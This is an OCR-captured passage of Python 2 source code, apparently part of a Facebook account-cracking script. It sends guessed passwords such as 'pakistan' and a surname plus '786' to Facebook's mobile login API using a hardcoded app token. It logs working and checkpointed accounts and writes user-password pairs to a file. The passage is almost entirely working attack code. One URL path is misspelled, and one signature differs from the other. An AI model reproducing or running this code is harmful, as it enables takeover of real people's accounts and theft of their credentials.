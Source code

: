 														print '\033[0;92m[OK] \033[0;39m ' + user  + ' \x1b[0;36;39|\033[0;39m ' + pass6 + '\033[0;39m | \033[0;39m' + b['name']

														oks.append(user+pass6)

													else:

														if 'www.facebook.com' in q["error_msg"]:

															print '\x1b[0;91;39[CP] \033[0;39m ' + user  + ' \x1b[0;36;39|\033[0;39m ' + pass6 + '\033[0;39m | \033[0;39m' + b['name']

															cek = open("out/CP.txt", "a")

															cek.write(user+"|"+pass6+"\n")

															cek.close()

															cekpoint.append(user+pass6)

														else:

															pass7 = 'pakistan'

															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

															q = json.load(data)

															if 'access_token' in q:

																print '\033[0;92m[OK] \033[0;39m ' + user  + ' \x1b[0;36;39|\033[0;39m ' + pass7 + '\033[0;39m | \033[0;39m' + b['name']

																oks.append(user+pass7)

															else:

																if 'www.facebook.com' in q["error_msg"]:

																	print '\x1b[0;91;39[CP] \033[0;39m ' + user  + ' \x1b[0;36;39|\033[0;39m ' + pass7 + '\033[0;39m | \033[0;39m' + b['name']

																	cek = open("out/CP.txt", "a")

																	cek.write(user+"|"+pass7+"\n")

																	cek.close()

																	cekpoint.append(user+pass7)

																else:

																	pass8 = b['last_name'] + '786'

																	data = urllib.urlopen("https://b-api.facebook.com/methode/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass8)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f522ef6")

																	q = json.load(data)

																	if 'access_token' in q:
